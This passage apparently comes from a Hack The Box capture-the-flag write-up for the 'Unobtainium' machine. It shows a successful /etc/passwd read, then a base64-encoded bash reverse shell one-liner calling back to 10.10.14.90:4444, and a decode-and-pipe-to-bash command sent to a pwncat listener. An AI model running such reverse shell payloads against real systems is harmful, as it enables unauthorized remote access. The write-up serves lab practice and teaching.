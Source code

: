 Success

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/
```

Looks like it works. Now lets setup a `pwncat` listener and send our reverse shell command

```bash
┌──(dan㉿kali)-[~/HacktheBox/unobtainium]
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.90/4444 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45MC80NDQ0IDA+JjEnCg==
```

```bash
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45MC80NDQ0IDA+JjEnCg== | base64 -d | bash 2>/dev/null
```

![listen for connection](../../assets/images/unobtainium/Untitled_12.png)

listen for connection

![send exploit](../../assets/images/unobtainium/Untitled_13.png)

send exploit

![success!](../../assets/images/unobtainium/Untitled_14.png)
